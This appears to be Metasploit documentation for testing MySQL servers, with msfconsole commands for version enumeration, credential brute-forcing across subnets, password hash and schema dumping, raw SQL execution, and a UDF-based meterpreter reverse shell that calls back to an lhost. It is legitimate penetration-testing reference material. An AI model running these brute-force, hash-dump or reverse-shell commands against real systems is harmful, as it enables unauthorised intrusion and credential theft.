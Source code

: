## MySQL

MySQL is frequently found on port 3306/TCP. It is an open-source relational database management system.

Metasploit has support for multiple MySQL modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Dumping database information
- Executing arbitrary queries against the database
- Executing arbitrary SQL queries against the database
- Gaining reverse shells

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```
msf6 > search mysql
```

### Lab Environment

When testing in a lab environment MySQL can either be installed on the host machine or within Docker:

```
docker run -it --rm -e MYSQL_ROOT_PASSWORD=' a b c p4$$w0rd' -p 3306:3306 mariadb:latest
```

### MySQL Enumeration

Enumerate version:

```
use auxiliary/scanner/mysql/mysql_version
run mysql://127.0.0.1
```

### MySQL Login / Bruteforce

If you have MySQL credentials to validate:

```
use auxiliary/scanner/mysql/mysql_login
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Re-using MySQL credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
```

Using an alternative port:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
```

Brute-force host with known user and password list:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### MySQL Dumping

User and hash dump:

```
use auxiliary/scanner/mysql/mysql_hashdump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Schema dump:

```
use auxiliary/scanner/mysql/mysql_schemadump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

### MySQL Querying

Execute raw SQL:

```
use admin/mysql/mysql_sql
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' sql='select version()'
```

### MySQL Reverse Shell

This module creates and enables a custom UDF (user defined function) on the target host via the `SELECT ... into DUMPFILE` method of binary injection. On default Microsoft Windows installations of MySQL (=< 5.5.9), directory write permissions not enforced, and the MySQL service runs as LocalSystem.

For this to work successfully:

1. `secure_file_priv`, a mysql setting, must be changed from the default to allow writing to MySQL's plugins folder
2. On Ubuntu, apparmor needs a bunch of exceptions added, or to be disabled. Equivalents on other linux systems most likely need the same
3. The MySQL plugin folder must be writable

NOTE: This module will leave a payload executable on the target system when the attack is finished, as well as the UDF DLL, and will define or redefine `sys_eval()` and `sys_exec()` functions. Usage:

```
use multi/mysql/mysql_udf_payload
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' lhost=192.168.123.1 target=Linux payload=linux/x86/meterpreter/reverse_tcp
```
